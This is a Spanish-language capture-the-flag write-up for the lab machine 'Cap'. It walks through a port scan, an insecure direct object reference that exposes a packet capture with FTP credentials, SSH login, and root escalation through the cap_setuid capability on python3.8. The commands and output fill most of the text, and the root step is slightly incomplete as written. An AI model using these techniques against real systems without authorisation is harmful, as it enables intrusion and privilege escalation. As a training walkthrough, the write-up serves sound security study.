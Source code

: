 ```yaml
---
title: 'Cap'
description: ''
pubDate: 'May 12 2023'
heroImage: 'https://res.cloudinary.com/djc1umong/image/upload/v1686606205/Cap_ypdfef.webp'
slug: 'cap'
---
```


```powershell
$ nmap -p- -sS --min-rate 5000 --open -vvv -n -Pn 10.10.10.245 -oG puertosAbiertos
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-07 10:35 WEST
Initiating SYN Stealth Scan at 10:35
Scanning 10.10.10.245 [65535 ports]
Discovered open port 21/tcp on 10.10.10.245
Discovered open port 80/tcp on 10.10.10.245
Discovered open port 22/tcp on 10.10.10.245
Completed SYN Stealth Scan at 10:35, 13.13s elapsed (65535 total ports)
Nmap scan report for 10.10.10.245
Host is up, received user-set (0.058s latency).
Scanned at 2022-08-07 10:35 WEST for 7s
Not shown: 65335 closed tcp ports (reset)
PORT STATE SERVICE REASON
21/tcp open ftp syn-ack ttl 63
22/tcp open ssh syn-ack ttl 63
80/tcp open http syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 12.23 seconds
Raw packets sent: 65535 (2.884MB) | Rcvd: 65535 (2.622MB)
```

vemos un servicio <i>ftp</i> que corre por el puerto 21 podemos intentar:

```powershell
ftp 10.10.10.245
```

pero sin contraseña no hacemos mucho, ingresamos a la página y vemos lo siguiente

<img
href='https://res.cloudinary.com/djc1umong/image/upload/v1686606224/cap_main_page_e1ofvh.webp'
width={696}
height={158}
/>

cuando ingresamos a <i>Security Snapshot (5 Second Pcap + Analysis)</i> de la pestaña en la parte izquierda vemos que estamos en la URL
<i> /data/1</i> vemos rápidamente si cambiando el <i>/1</i> con el <i>/0</i> pasa algo vemos que
algunos datos en la columna value si cambian, le damos al botón de descargar

```powershell
$ file 0.pcap
0.pcap: pcap capture file, microsecond ts (little-endian) - version 2.4 (Linux cooked v1, capture length 262144)
```

después de comprobar que si es un archivo pcap, lo analizamos con tshark

```powershell
tshark -r 0.pcap 2&gt;/dev/null
```

<img
href='https://res.cloudinary.com/djc1umong/image/upload/v1686606256/cap_tshark_e5mjpt.webp'
width={760}
height={108}
/>

ahora que tenemos un usuario y contraseña podemos intentar conectarnos con <i>fpt</i> y con ssh.

````powershell
$ ftp 10.10.10.245
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:leonardo): nathan
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.```

$ ssh nathan@10.10.10.245
nathan@cap:~$ cat user.txt

````

si la máquina se llama <i>Cap</i> intentemos probar si se trata de una <i>capability </i>

```powershell
nathan@cap:~$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lin/x86_64-linux-gnu/gstreamer1.0/gstreaner-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_bind_service,cap_net_admin+ep
```

si <i>python3.8</i> tiene una capability de tipo <i>SUID </i> entonces con
python cambiamos <i>setuid</i> y nos lanzamos una bash

```powershell
nathan@cap:~$ python3.8
>>> import os
>>> os.setuid(0)
root@cap:/# whoami
root
root@cap:/#
```

